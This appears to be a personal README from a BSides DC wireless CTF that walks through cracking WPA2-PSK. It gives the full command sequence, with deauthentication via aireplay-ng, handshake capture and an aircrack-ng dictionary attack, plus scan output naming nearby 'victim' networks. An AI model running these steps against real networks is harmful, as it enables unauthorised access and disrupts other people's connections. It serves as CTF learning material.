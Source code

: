 # How to haxx0r WPA!!
![BSides DC 2017](wirelessvillage.png?raw=true "My first wireless CTF ever!")

## Introduction
This is a very rough draft explaining the commands I used to crack my first WPA
network.  I created this file mostly for my benefit as I was learning, but I
figured it may save someone else out there someday from having to regrok more
manpages.  (To the aircrack guys' credit, their manpages are excellently
written.)  I will publish my full cracking scripts at a later date.

## Find victim network
I made a horrible Bash abomination simply called `scanner` (please don't laugh)
that produces easier-to-read iwlist output which you can use or not use (I don't
care).

```
$ ./scanner # Find a victim network
          Cell 01 - Address: 70:3A:CB:F0:ED:CD
                    Channel:11
                    Frequency:2.462 GHz (Channel 11)
                    Quality=34/70  Signal level=-76 dBm
                    Encryption key:on
                    ESSID:"Middleton"
                    IE: IEEE 802.11i/WPA2 Version 1
                        Group Cipher : CCMP
                        Pairwise Ciphers (1) : CCMP
                        Authentication Suites (1) : PSK
          Cell 02 - Address: 72:3A:CB:F0:ED:CC
                    Channel:11
                    Frequency:2.462 GHz (Channel 11)
                    Quality=35/70  Signal level=-75 dBm
                    Encryption key:on
                    ESSID:"Guest-Middleton"
                    IE: IEEE 802.11i/WPA2 Version 1
                        Group Cipher : CCMP
                        Pairwise Ciphers (1) : CCMP
                        Authentication Suites (1) : PSK
          Cell 03 - Address: 70:3A:CB:F0:ED:80
                    Channel:11
                    Frequency:2.462 GHz (Channel 11)
                    Quality=24/70  Signal level=-86 dBm
                    Encryption key:on
                    ESSID:"Middleton"
                    IE: IEEE 802.11i/WPA2 Version 1
                        Group Cipher : CCMP
                        Pairwise Ciphers (1) : CCMP
                        Authentication Suites (1) : PSK
          Cell 04 - Address: F8:7B:8C:20:F8:EF
                    Channel:6
                    Frequency:2.437 GHz (Channel 6)
                    Quality=36/70  Signal level=-74 dBm
                    Encryption key:on
                    ESSID:"Home Wi-Fi 2.5Ghz"
                    IE: WPA Version 1
                        Group Cipher : CCMP
                        Pairwise Ciphers (1) : CCMP
                        Authentication Suites (1) : PSK
                    IE: IEEE 802.11i/WPA2 Version 1
                        Group Cipher : CCMP
                        Pairwise Ciphers (1) : CCMP
                        Authentication Suites (1) : PSK
          Cell 05 - Address: 72:3A:CB:F0:ED:80
                    Channel:11
                    Frequency:2.462 GHz (Channel 11)
                    Quality=23/70  Signal level=-87 dBm
                    Encryption key:on
                    ESSID:"Guest-Middleton"
                    IE: IEEE 802.11i/WPA2 Version 1
                        Group Cipher : CCMP
                        Pairwise Ciphers (1) : CCMP
                        Authentication Suites (1) : PSK
```

Once a target has been sighted, you can make a little text file for reference:

```
$ ./scanner Guest-Middleton | tee victim_network-info.txt
          Cell 02 - Address: 72:3A:CB:F0:ED:CC
                    Channel:11
                    Frequency:2.462 GHz (Channel 11)
                    Quality=35/70  Signal level=-75 dBm
                    Encryption key:on
                    ESSID:"Guest-Middleton"
                    IE: IEEE 802.11i/WPA2 Version 1
                        Group Cipher : CCMP
                        Pairwise Ciphers (1) : CCMP
                        Authentication Suites (1) : PSK
--
          Cell 05 - Address: 72:3A:CB:F0:ED:80
                    Channel:11
                    Frequency:2.462 GHz (Channel 11)
                    Quality=26/70  Signal level=-84 dBm
                    Encryption key:on
                    ESSID:"Guest-Middleton"
                    IE: IEEE 802.11i/WPA2 Version 1
                        Group Cipher : CCMP
                        Pairwise Ciphers (1) : CCMP
                        Authentication Suites (1) : PSK
```

If your victim info gets lost in the scrollback you can use
`cat victim_network-info.txt` or `less victim_network-info.txt` anytime.

## Get some handshakes
You may have to get closer to the victim network in order to get a full hanshake.  Note the `Signal level` portion of the `iwlist` or `scanner` output.

Note that `iwconfig` may no longer work in the future, so you may have to set your channel with a different tool.

```
iwlist [CARD] scan
iwconfig [CARD] channel [CHANNEL_NUM]
aireplay-ng -0 2 -a [BSSID] [CARD]
airodump-ng --output-format pcap -w capshur -c [CHANNEL] [CARD]
wpaclean [OUTFILE] [INFILE(s)]
```

## Get crackin'
You now should have your handshake if you did the previous steps right.  You
now must crack it to uncover the pre-shared key (PSK).  You can use a bute-force attack, a dictionary attack, or a hybrid of the two.

### Pure Butal
```
wpapcap2john + JtR
aircrack-ng + hashcat
```

### A Basic Dictionary Attack
```
aircrack-ng -s -l wctf_05.psk -w super.words -e WCTF_05 superclean.cap
aircrack-ng -s -l [KEY OUTFILE] -w [WORDLIST] -e [ESSID] [CAPFILE]
```

### Hybrid
Read the John and Hashcat manpages for more info on how to carry out their
respective hybrid attacks.
